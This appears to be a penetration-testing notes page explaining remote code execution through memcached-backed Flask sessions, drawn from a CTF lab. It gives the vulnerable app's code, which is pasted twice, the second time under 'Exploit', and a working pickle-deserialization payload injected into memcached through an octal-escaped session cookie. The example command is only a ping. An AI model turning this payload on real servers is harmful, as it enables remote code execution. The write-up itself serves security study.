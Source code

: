 # Content

# Memcached 
if an app use memcached to store session and trust user given session , the session is serialzed in the memory and if the app uses the session to get any info from it it will be vuln to RCE 

## Python 
example of an vuln lap from HTB cyber-apocalypse-2024 CTF

```python
mport pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

- `SESSION_TYPE = memcached` which tells Flask-Session to store the sessions on a memcached instance
- in any `session.get` it will try to get the info from memcache


### Exploit

```python
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

based on this [blog](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/)

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('ping -c 1 localhost')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
```

![Screenshot_4](https://github.com/kiro6/penetration-testing-notes/assets/57776872/f58f25f9-c27f-48ac-87cc-54577ffe8d7b)



![Screenshot_1](https://github.com/kiro6/penetration-testing-notes/assets/57776872/e2534c41-7aa4-4db8-b06f-259504ebce88)
